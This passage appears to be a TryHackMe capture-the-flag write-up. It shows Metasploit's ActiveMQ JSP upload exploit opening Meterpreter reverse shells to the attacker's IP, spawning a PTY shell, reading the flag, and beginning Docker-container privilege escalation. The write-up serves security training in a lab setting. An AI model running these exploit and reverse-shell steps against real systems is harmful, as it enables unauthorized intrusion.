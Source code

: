 ```
[*] Meterpreter session 2 opened (10.9.0.253:4433 -> 10.10.179.241:33478) at 2023-01-01 21:50:13 -0500
[*] Stopping exploit/multi/handler

msf6 exploit(multi/http/apache_activemq_upload_jsp) > sessions -l

Active sessions
===============

  Id  Name  Type                    Information               Connection
  --  ----  ----                    -----------               ----------
  1         meterpreter java/linux  activemq @ activemq       10.9.0.253:443 -> 10.10.179.241:37626 (10.1
                                                              0.179.241)
  2         meterpreter x86/linux   activemq @ 10.10.179.241  10.9.0.253:4433 -> 10.10.179.241:33478 (10.
                                                              10.179.241)

msf6 exploit(multi/http/apache_activemq_upload_jsp) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > shell
Process 366 created.
Channel 1 created.
python3 -c "import pty;pty.spawn('/bin/bash')" 
activemq@activemq:/opt/apache-activemq-5.9.0$ whoami;hostname;id;hostname -I
activemq
activemq
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
10.10.179.241 172.17.0.1
```

I'm user `activemq`!

**flag.txt:**
```
activemq@activemq:/opt/apache-activemq-5.9.0$ cat /opt/apache-activemq-5.9.0/flag.txt
THM{Redacted}
```

## Privilege Escalation

> Note: **There are 2 ways to get root privilege.**

### 1. activemq to root

In the `hostname -I` second IP address, it's clear that **our current shell is inside a docker container (Default docker container IP range: `172.17.0.0/16`).**

**Also, in the `/` directory, we can see there is a `.dockerenv` file:** 
```
activemq@activemq:/opt/apache-activemq-5.9.0$ ls -lah /
total 76K
drwxr-xr-x   1 root root 4.0K Dec 26  2020 .
drwxr-xr-x   1 root root 4.0K Dec 26  2020 ..
-rwxr-xr-x   1 root root    0 Dec 26  2020 .dockerenv
[...]
```
